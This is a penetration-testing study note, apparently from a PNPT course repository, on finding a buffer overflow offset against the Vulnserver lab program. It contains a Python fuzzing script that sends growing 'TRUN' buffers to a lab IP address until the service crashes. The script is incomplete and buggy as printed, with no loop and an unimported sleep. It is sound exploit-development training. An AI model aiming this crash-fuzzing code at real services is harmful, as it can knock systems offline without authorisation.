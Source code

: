 
# Finding the Offset w/ Pattern Create
Now that we know our offset from [fuzzing](/nested-repos/PNPT-study-guide/PEH/buffer-overflows/fuzzing.md) the program, we can use [pattern create](/cybersecurity/tools/pattern-create.md) to help fine-tune our exploit script and payload.

**![ See Pattern Create](/cybersecurity/tools/pattern-create.md)
** (relative)
[Pattern Create](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/pattern-create.md) (GitHub repo)**
## Finding the **EXACT** Address
Now that we've created a buffer string with `pattern_create` we can copy paste our fuzzing script into a new script (which will become our exploit as we fine tune it).
```python
import sys, socket

# Create the buffer of 'A' characters
buffer = "A" * 100

try:
	# Build the payload by appending the TRUN command to the buffer
	payload = "TRUN /.:/" + buffer

	# Create, open, and connect to the socket (connecting to target)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))

	# Send the payload to target
	print ("[+] Sending the payload...\n" + str(len(buffer)))
	s.send(payload)
	
	# Close connection and what 1 second
	s.close()
	sleep(1)

	# (if we haven't crashed) increase buffer length by 100 bytes & try again
	buffer = buffer + "A"*100
except:
	# When the target crashes, print the number of bytes it took
	print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)